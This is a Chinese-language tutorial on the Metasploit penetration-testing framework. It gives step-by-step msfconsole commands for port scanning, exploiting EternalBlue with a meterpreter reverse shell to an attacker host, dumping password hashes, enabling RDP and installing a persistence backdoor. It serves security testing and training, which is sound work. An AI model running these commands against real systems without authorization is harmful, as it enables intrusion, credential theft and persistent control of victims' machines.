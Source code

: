 Metasploit是一款开源的渗透测试框架，集成了漏洞利用模块、Payload生成器、后渗透工具等，广泛用于安全测试、漏洞验证和攻防演练。以下从功能介绍和Windows下的基础使用流程展开说明：

### Metasploit的核心功能

1. **漏洞利用模块（Exploits）**内置大量针对操作系统（Windows/Linux）、应用软件（如Apache、MySQL）、协议（如SMB、FTP）的漏洞利用代码，覆盖从老旧漏洞（如永恒之蓝）到新型漏洞的验证工具。
2. **攻击载荷（Payloads）**用于在目标系统上执行的恶意代码，如反向连接（让目标主动连接攻击者）、绑定端口（攻击者连接目标开放的端口）、命令执行等，支持多种语言（C、Python等）和加密方式。
3. **辅助模块（Auxiliary）**包括信息收集（端口扫描、服务探测）、漏洞扫描、拒绝服务（DoS）、密码破解等工具，用于渗透测试前期的目标探测和攻击面分析。
4. **后渗透模块（Post）**攻陷目标后使用，如权限提升、敏感信息窃取（密码哈希、浏览器数据）、横向移动（控制局域网内其他主机）、持久化（添加后门确保长期控制）等。
5. **编码器（Encoders）**对Payload进行加密或编码，绕过目标系统的杀毒软件（AV）、防火墙等安全机制。

### Windows下Metasploit的基础使用流程（以`msfconsole`为例）

Metasploit在Windows下通常通过命令行工具`msfconsole`操作，以下是一个完整的测试流程（**注意：仅用于合法授权的测试环境！**）：

#### 1. 启动Metasploit

- 打开“开始菜单”，找到“Metasploit Framework”，点击“msfconsole”启动控制台（或通过命令行进入安装目录，执行`msfconsole`）。  
- 启动成功后会显示Metasploit的命令行界面（类似`msf6 >`）。

#### 2. 信息收集（以扫描目标开放服务为例）

假设目标IP为`192.168.1.100`，先探测其开放的端口和服务：  

```Bash
# 搜索端口扫描模块（auxiliary/scanner/portscan）
msf6 > search portscan

# 使用tcp扫描模块
msf6 > use auxiliary/scanner/portscan/tcp

# 查看模块需要配置的参数
msf6 auxiliary(scanner/portscan/tcp) > show options

# 设置目标IP（RHOSTS）和扫描端口范围（PORTS）
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 1-1000

# 运行扫描
msf6 auxiliary(scanner/portscan/tcp) > run
```

扫描结果会显示目标开放的端口（如80、445等）和对应服务（如HTTP、SMB）。

#### 3. 漏洞利用（以SMB漏洞“永恒之蓝”为例）

若扫描发现目标开放445端口（SMB服务），且可能存在“永恒之蓝”漏洞（CVE-2017-0144）：  

```Bash
# 搜索永恒之蓝漏洞利用模块
msf6 > search eternalblue

# 使用对应的exploit模块
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# 查看需要配置的参数
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

# 设置目标IP（RHOSTS）
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.100

# 设置Payload（这里选择反向连接到攻击者的IP和端口）
# 假设攻击者IP为192.168.1.200，监听端口4444
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.200  # 攻击者IP
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444          # 攻击者监听端口

# 执行漏洞利用
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

若成功，会获得目标系统的`meterpreter`会话（一种交互式shell）。

#### 4. 后渗透操作（通过meterpreter）

获得`meterpreter`会话后，可执行以下操作：  

```Bash
# 查看当前会话（若有多个）
msf6 > sessions

# 进入指定会话（如会话ID为1）
msf6 > sessions -i 1

# 在目标系统执行命令（如查看系统信息）
meterpreter > sysinfo

# 查看目标进程
meterpreter > ps

# 窃取密码哈希（需管理员权限）
meterpreter > hashdump

# 开启远程桌面（方便后续控制）
meterpreter > run post/windows/manage/enable_rdp

# 持久化（添加后门，如创建自启动服务）
meterpreter > run persistence -X -i 5 -p 4444 -r 192.168.1.200
```

#### 5. 退出Metasploit

```Bash
# 退出meterpreter会话（返回msfconsole）
meterpreter > background

# 退出msfconsole
msf6 > exit
```

### 常用技巧

1. **模块搜索**：使用`search [关键词]`查找模块（如漏洞名称、服务类型），例如`search mysql`查找MySQL相关模块。  
2. **参数配置**：`show options`查看必填参数，`set [参数名] [值]`设置参数，`unset [参数名]`取消设置。  
3. **会话管理**：`sessions`查看所有会话，`sessions -i [ID]`进入会话，`sessions -k [ID]`关闭会话。  
4. **更新模块**：通过`msfupdate`命令更新Metasploit的漏洞库和模块（需联网）。  